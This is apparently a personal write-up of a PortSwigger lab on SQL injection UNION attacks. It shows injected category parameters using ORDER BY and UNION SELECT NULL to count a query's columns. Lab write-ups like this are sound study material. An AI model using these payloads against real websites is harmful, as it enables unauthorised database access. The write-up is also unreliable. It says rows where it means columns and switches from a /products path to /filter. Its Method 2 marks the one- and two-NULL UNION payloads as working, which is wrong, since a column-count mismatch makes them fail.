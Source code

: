 ```yaml
---
title: PortSwigger - SQLi 3 - UNION attack, determining the number of columns returned by the query
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

Now we can use 2 technics to determine the number of rows returned:

### Method 1 - ORDER BY

````text
<website>/filter?category=Gifts' ORDER BY 1--    # works
<website>/filter?category=Gifts' ORDER BY 2--    # works
<website>/filter?category=Gifts' ORDER BY 3--    # works
<website>/filter?category=Gifts' ORDER BY 4--    # error!
````

So we know 3 columns are returned.

### Method 2 - UNION SELECT NULL

````text
<website>/filter?category=Gifts' UNION SELECT NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

Same result: 3 columns are returned.
